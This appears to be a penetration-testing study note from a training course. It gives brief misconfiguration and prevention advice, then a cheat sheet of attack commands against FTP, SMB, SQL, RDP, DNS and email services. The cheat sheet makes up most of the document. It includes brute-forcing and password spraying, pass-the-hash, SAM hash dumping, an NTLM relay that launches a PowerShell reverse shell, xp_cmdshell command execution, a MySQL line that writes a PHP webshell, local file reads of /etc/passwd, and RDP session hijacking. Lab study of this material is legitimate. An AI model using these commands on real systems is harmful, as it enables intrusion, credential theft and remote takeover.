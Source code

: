 ### The Concept of Attacks


![Attack concept](./attack_concept2.webp "Attack concept")

![Attack concept](./log4jattack.webp "Attack concept")

### Service Misconfigurations

```
# Main bad practices:

- Weak Auth password, default passwords
- Anonymous Authentication
- Misconfigured Access Rights with better options by links below:
```

[Role-based access control (RBAC)](https://en.wikipedia.org/wiki/Role-based_access_control)
[Attribute-based access control (ABAC)](https://en.wikipedia.org/wiki/Attribute-based_access_control)
[Access control lists (ACL)](https://en.wikipedia.org/wiki/Access-control_list) 
->
[Choosing the best access control strategy](https://authress.io/knowledge-base/academy/topics/access-control-strategies)

```
# Unnecessary Defaults:

- Unnecessary features are enabled or installed (e.g., unnecessary ports, services, pages, accounts, or privileges).
- Default accounts and their passwords are still enabled and unchanged.
- Error handling reveals stack traces or other overly informative error messages to users.
- For upgraded systems, the latest security features are disabled or not configured securely.
```

### Preventing Misconfiguration

```
# Best Practices:
- Admin interfaces should be disabled.
- Debugging is turned off.
- Disable the use of default usernames and passwords.
- Set up the server to prevent unauthorized access, directory listing, and other issues.
- Run scans and audits regularly to help discover future misconfigurations or missing fixes.

```

### Finding Sensitive Information

```
# Sensitive information may include, but is not limited to:

- Usernames.
- Email Addresses.
- Passwords.
- DNS records.
- IP Addresses.
- Source code.
- Configuration files.
- PII.

# This module will cover some common services where we can find interesting information and discover different methods 
# and tools we can use to automate our discovery process. 
# These services include:

- File Shares.
- Email.
- Databases.

# There are two key elements to finding sensitive information:

- We need to understand the service and how it works.
- We need to know what we are looking for.
```
-----------------------------------------

### Cheat Sheet

#### Attacking FTP
Command                                                                 Description
ftp 192.168.2.142                                                       Connecting to the FTP server using the ftp client.
nc -v 192.168.2.142 21                                                  Connecting to the FTP server using netcat.
hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142  Brute-forcing the FTP service.


#### Attacking SMB
Command                                                                 Description
smbclient -N -L //10.129.14.128                                         Null-session testing against the SMB service.
smbmap -H 10.129.14.128                                                 Network share enumeration using smbmap.
smbmap -H 10.129.14.128 -r notes                                        Recursive network share enumeration using smbmap.
smbmap -H 10.129.14.128 --download "notes\note.txt"                     Download a specific file from the shared folder.
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"              Upload a specific file to the shared folder.
rpcclient -U'%' 10.10.110.17                                            Null-session with the rpcclient.
./enum4linux-ng.py 10.10.11.45 -A -C                                    Automated enumeration of the SMB service using enum4linux-ng.
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'      Password spraying against different users from a list.
impacket-psexec administrator:'Password123!'@10.10.110.17               Connect to the SMB service using the impacket-psexec.
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec  Execute a command over the SMB service using crackmapexec.
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users  Enumerating Logged-on users.
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam  Extract hashes from the SAM database.
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE  Use the Pass-The-Hash technique to authenticate on the target host.
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146      Dump the SAM database using impacket-ntlmrelayx.
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>'  Execute a PowerShell based reverse shell using impacket-ntlmrelayx.

#### Attacking SQL Databases
Command                                                                 Description
mysql -u julio -pPassword123 -h 10.129.20.13                            Connecting to the MySQL server.
sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30     Connecting to the MSSQL server.
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h                       Connecting to the MSSQL server from Linux.
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h                    Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server.
mysql> SHOW DATABASES;                                                  Show all available databases in MySQL.
mysql> USE htbusers;                                                    Select a specific database in MySQL.
mysql> SHOW TABLES;                                                     Show all available tables in the selected database in MySQL.
mysql> SELECT * FROM users;                                             Select all available entries from the "users" table in MySQL.
sqlcmd> SELECT name FROM master.dbo.sysdatabases                        Show all available databases in MSSQL.
sqlcmd> USE htbusers                                                    Select a specific database in MSSQL.
sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES                Show all available tables in the selected database in MSSQL.
sqlcmd> SELECT * FROM users                                             Select all available entries from the "users" table in MSSQL.
sqlcmd> EXECUTE sp_configure 'show advanced options', 1                 To allow advanced options to be changed.
sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1                           To enable the xp_cmdshell.
sqlcmd> RECONFIGURE                                                     To be used after each sp_configure command to apply the changes.
sqlcmd> xp_cmdshell 'whoami'                                            Execute a system command from MSSQL server.
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'  Create a file using MySQL.
mysql> show variables like "secure_file_priv";                          Check if the secure file privileges are empty to read locally stored files on the system.
sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents  Read local files in MSSQL.
mysql> select LOAD_FILE("/etc/passwd");                                 Read local files in MySQL.
sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'                 Hash stealing using the xp_dirtree command in MSSQL.
sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'                 Hash stealing using the xp_subdirs command in MSSQL.
sqlcmd> SELECT srvname, isremote FROM sysservers                        Identify linked servers in MSSQL.
sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]  Identify the user and its privileges used for the remote connection in MSSQL.

#### Attacking RDP
Command                                                                 Description
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'      Password spraying against the RDP service.
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp               Brute-forcing the RDP service.
rdesktop -u admin -p password123 192.168.2.143                          Connect to the RDP service using rdesktop in Linux.
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}                    Impersonate a user without its password.
net start sessionhijack                                                 Execute the RDP session hijack.
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f  Enable "Restricted Admin Mode" on the target Windows host.
xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA  Use the Pass-The-Hash technique to login on the target host without a password.

#### Attacking DNS
Command                                                                 Description
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb                       Perform an AXFR zone transfer attempt against a specific name server.
subfinder -d inlanefreight.com -v                                       Brute-forcing subdomains.
host support.inlanefreight.com                                          DNS lookup for the specified subdomain.

### Attacking Email Services
Command                                                                 Description
host -t MX microsoft.com                                                DNS lookup for mail servers for the specified domain.
dig mx inlanefreight.com | grep "MX" | grep -v ";"                      DNS lookup for mail servers for the specified domain.
host -t A mail1.inlanefreight.htb.                                      DNS lookup of the IPv4 address for the specified subdomain.
telnet 10.10.110.20 25                                                  Connect to the SMTP server.
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7  SMTP user enumeration using the RCPT command against the specified host.
python3 o365spray.py --validate --domain msplaintext.xyz                Verify the usage of Office365 for the specified domain.
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz       Enumerate existing users using Office365 on the specified domain.
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz  Password spraying against a list of users that use Office365 for the specified domain.
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3                 Brute-forcing the POP3 service.
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213  Testing the SMTP service for the open-relay vulnerability.